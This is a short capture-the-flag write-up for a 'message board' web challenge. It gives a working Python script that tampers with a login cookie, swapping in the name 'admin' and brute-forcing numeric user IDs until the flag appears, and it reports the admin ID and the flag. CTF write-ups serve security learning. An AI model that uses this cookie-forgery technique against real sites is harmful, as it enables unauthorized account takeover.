 
The challenge gave account for user *kupatergent* to login message board, from the code, it seems user *admin* can bring us the flag. The ID for admin is unkown, the user ID is a number, bruteforce seems like an option. 

Login as *kupatergent*, replace user ID in cookie with testing number, if the number is admin ID, the flag shall be in response. 

```python
def exploit():
    target = 'https://message-board.hsc.tf'
    user = 'kupatergent'
    pw = 'gandal'
    with requests.Session() as sess:
        rsp = sess.post(target+'/login', data={'username':user,'password':pw})
        user_data = sess.cookies.get_dict()['userData']
        user_data = user_data.replace(user, 'admin')
        for admin_id in range(10000):
            fake = user_data.replace('972', str(admin_id))
            sess.cookies.set('userData', fake, domain=target.split('/')[-1])
            rsp = sess.get(target)
            print(sess.cookies)
            if 'flag{' in rsp.text:
                print(rsp.text)
                break
```

The script ran for a while quite when number reach *768*, so it's the admin ID, the flag is *flag{y4m_y4m_c00k13s}*.
